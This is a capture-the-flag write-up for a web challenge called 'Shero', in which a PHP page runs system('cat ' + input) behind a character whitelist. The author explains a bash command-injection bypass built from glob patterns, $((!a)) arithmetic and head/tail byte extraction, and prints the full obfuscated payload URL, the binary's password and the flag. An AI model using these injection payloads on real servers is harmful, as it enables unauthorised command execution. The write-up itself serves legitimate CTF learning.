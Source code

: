 # Shero

## Solution 

The goal is to send this to the server:

```bash
cat | readflag sRPd45w_0
```

Since the initial `cat` is provided, only the pipe character onward needs to be included. 

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))

## Thought process

On visiting the webpage, the webpage shows the following:

```php
Warning: Undefined array key "f" in /var/www/html/index.php on line 2
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>

Deprecated: preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in /var/www/html/index.php on line 5
```

The webpage takes in a `GET` parameter named `f` that only allows certain whitelisted values.

The line `if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {` shows that only these characters are allowed: `. cat!?/|-[]()$`. This can be [verified](http://challs.nusgreyhats.org:12325/?f=gg) by trying a non-whitelisted character in the `f` parameter.

![whitelist only photo](WhitelistOnly.png)

The `system` call seems to suggest some form of bash injection.

The goal is to be able to find something indicative of a flag. Given that the program runs `cat`, this is insufficient to enumerate the files on the server. `ls` or another program is needed. It would also be helpful to have access to `echo` by passing it positional arguments to see what an input gets evaluated as.

Try `/?f=|/???/?c??`, which hopefully evaluates to `/bin/echo`. The `|` pipe character is used so another command can be executed instead of being passed as a positional argument to `cat`.

![echo photo](Echo.png)

It seems `echo` is running, but also running with a few other positional arguments.

It appears that `???/?c??` is expanded to space-delimited files that it has matched. In this case, `echo` was matched first, followed by the other programs. In either case, `echo` works.

Next, try to find where the flag is stored. Try to match `ls` with `/usr/bin/ls` or `/bin/ls`

![ls attempt photo](LsAttempt.png)

`ls` is not the first result. This makes `ls` impossible to match as the first result. However, googling reveals the following alternatives: `/bin/dir`.

![dir attempt photo](BinDirAttempt.png)

`/bin/dir` comes as the second result, with `/bin/cat` coming in first. The second letter can be used to differentiate the two. The result can also be cleaned up by filtering on the first level `bin` folder to return only programs in the `bin` folder.

![successful bin photo](ActualBinDir.png)

The directory structure on the server can now be viewed. The flag can be found at the root directory `/` (after a few trial and error attempts).

![dir root photo](DirRootResult.png)

Note that `/bin/sed` also matches the regex used to match `/bin/dir`, but is provided as a positional argument to `dir`. This will not affect results. The relevant results can be seen after `/:`. Specifically, there is a `flag.txt` and `readflag`.

Would a naive `cat flag.txt` work? Probably not, but worth a try.

![cat flag fail photo](CatFlagFail.png)

There are probably insufficient permissions for the web service process to print the flag directly. The `readflag` file seems to suggest that as well. `cat readflag` and examine its contents.

![cat readflag photo](CatReadFlag.png)

`readflag` seems to be an ELF executable (judging from the start of its contents). Using burpsuite, send the exact same `GET` request to dump out the executable file. Then, disassemble the file.

![readflag disassembly photo](ReadflagDisassembly.png)

It seems that `readflag` takes in a positional argument (as seen in `argv[1]`) and is compared to `s1`. `s1` has  the contents `"sRPd45w_0"` as seen in `strcpy(s1, "sRPd45w_0")`. Therefore, the command to be invoked is `cat | readflag sRPd45w_0` to obtain the flag.

However, the password string contains characters that will not pass the whitelist check. Therefore, another way must be used to obtain the string.

Note that the binary file contains the password string needed. Then, programs that could extract data based off certain byte offsets could be used to print the necessary password string.

An accidental discovery was made with `$[]` while experimenting with the bash terminal. However, `$[]` has been deprecated and is succeeded by `$(())`. `$(())` can be used to generate numbers - for example, `$((!a))` gives 1, and `$((a))`. This happens since `a` is unlikely to be a variable that has a set value, so it defaults to 0. Then, when chained with `--`, `$(( $((!a)) -- $((!a)) ))` would give 2. This can be used to generate arbitrary numbers.

With that in mind, `cut` was the first program of choice. It supports a flag specified with `-c`, allowing users to extract specific offsets of characters. However, it did not work for binary data as it often gave inconsistent results. `cut` also works on offsets relative to the start of each new line, which was not what was needed.

![readflag cut photo](ReadflagCut.png)

It should be noted that `cut` can still generate letters, just not consistently when it comes to binary data. In this case, it does not sufficiently work.

`printf` also would not work due to `\` not being whitelisted.

However, `head` and `tail` also has a `-c` flag that allows the first N or last N bytes to be extracted respectively. Find an expression for `head` and `tail`:

![usr bin tail photo](BinTail.png)

![usr bin head photop](BinHead.png)

While `tail` has an exact match, `head` does not. However, this will not pose a problem. `head` will process both files, which can be piped into tail to extract the last character. Since the `readflag` binary comes after the `pmap` argument, it will be last in the output of `head` and allow `tail` to work on it.

![head tail chain photo](HeadTailChain.png)

An expression to print out the passwords have been found. The relevant offsets are:

```bash
head readflag -c 8199 | tail -c 1 #s
head readflag -c 8204 | tail -c 1 #R
head readflag -c 8197 | tail -c 1 #P
head readflag -c 8205 | tail -c 1 #d
head readflag -c 8198 | tail -c 1 #4
head readflag -c 8200 | tail -c 1 #5
head readflag -c 8202 | tail -c 1 #w
head readflag -c 8201 | tail -c 1 #_
head readflag -c 8203 | tail -c 1 #0
```

Combining all previously obtained knowledge, printing `s` would look like this: (some spacebars and newline added for clarity)

```bash
$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #s

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #R

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #P

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #d

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #4

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #5

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #w

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a)))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #_

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a)))))) #0
```

Apply the relevant URL encoding and strip unnecessary spaces to get the solution. It runs the equivalent of 

```bash
cat | readflag sRPd45w_0
```

on the main server.

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))


<details>
<summary>Flag</summary>
grey{r35p3c7_70_b45h_m4573r_0dd14e9bc3172d16} 
</details>

## Similar challenges I've seen

[GryphonCTF2017](https://github.com/DISMGryphons/GryphonCTF2017-Challenges/tree/master/challenges/pwn/Bashing), based off 33c3 CTF hohoho.

